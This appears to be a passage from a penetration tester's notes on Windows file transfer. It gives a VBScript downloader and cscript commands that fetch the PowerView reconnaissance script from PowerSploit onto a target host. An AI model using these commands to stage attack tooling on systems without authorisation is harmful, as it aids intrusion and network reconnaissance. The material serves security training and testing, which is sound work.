 ````powershell
cscript /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
````
## VBScript
The following VBScript, based on this post can be used.

````vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
````
It can be executed as follows.

````powershell
cscript /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
